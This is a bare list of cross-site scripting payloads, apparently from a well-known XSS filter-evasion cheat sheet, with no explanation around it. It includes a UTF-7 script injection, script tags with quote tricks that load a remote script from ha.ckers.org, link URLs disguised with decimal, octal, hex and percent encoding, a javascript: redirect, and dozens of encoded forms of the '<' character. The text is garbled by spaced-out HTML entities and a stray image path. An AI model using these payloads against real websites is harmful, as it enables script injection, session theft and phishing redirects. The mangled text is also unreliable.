 & lt; HEAD & gt; & lt; META HTTP-EQUIV = \ "CONTENT-TYPE \" CONTENT = \ "text / html; charset = UTF-7 \" & gt; & lt; / HEAD & gt; + ADw-SCRIPT + AD4-alerta ('XSS'); + ADw- / SCRIPT + AD4-
& lt; SCRIPT a = \ "& gt; \" SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js \" & gt; & lt; / SCRIPT & gt;
& lt; SCRIPT = \ "& gt; \" SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js \" & gt; & lt; / SCRIPT & gt;
& lt; SCRIPT a = \ "& gt; \" '' SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js \" & gt; & lt; / SCRIPT & gt;
& lt; SCRIPT \ "a = '& gt;' \" SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js \" & gt; & lt; / SCRIPT & gt;
& lt; SCRIPT a = `& gt;` SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js \" & gt; & lt; / SCRIPT & gt;
& lt; SCRIPT a = \ "& gt; '& gt; \" SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js \" & gt; & lt; / SCRIPT & gt;
& lt; SCRIPT & gt; document & # 46; write (\ "& lt; SCRI \"); & lt; / SCRIPT & gt; PT SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js \ "& gt; & lt; / SCRIPT & gt;
& lt; A HREF = \ "http & # 58; // 66 & # 46; 102 & # 46; 7 & # 46; 147 / \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "http & # 58; //% 77% 77% 77% 2E% 67% 6F% 6F% 67% 6C% 65% 2E% 63% 6F% 6D \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "http & # 58; // 1113982867 / \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "http & # 58; // 0x42 & # 46; 0x0000066 & # 46; 0x7 & # 46; 0x93 / \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "http & # 58; // 0102 & # 46; 0146 & # 46; 0007 & # 46; 00000223 / \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "htt p & # 58; // 6 6 & # 46; 000146 & # 46; 0x7 & # 46; 147 / \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "// www & # 46; google & # 46; com / \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "// google \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "http & # 58; // ha & # 46; ckers & # 46; org @ google \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "http & # 58; // google & # 58; ha & # 46; ckers & # 46; org \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "http & # 58; // google & # 46; com / \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "http & # 58; // www & # 46; google & # 46; com & # 46; / \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "javascript & # 058; document & # 46; location = 'http & # 58; // www & # 46; google & # 46; com /' \" & gt; XSS & lt; / A & gt;
& lt; A HREF = \ "http & # 58; // www & # 46; gohttp & # 58; // www & # 46; google & # 46; com / ogle & # 46; com / \" & gt; XSS & lt; / A & gt;
& lt;
% 3C
& lt
& lt;
& LT
& LT;
& # 60
& # 060
& # 0060
& # 00060
& # 000060
& # 0000060
& lt;
& # x3c
& # x03c
& # x003c
& # x0003c
& # x00003c
& # x000003c
& # x3c;
& # x03c;
& # x003c;
& # x0003c;
& # x00003c;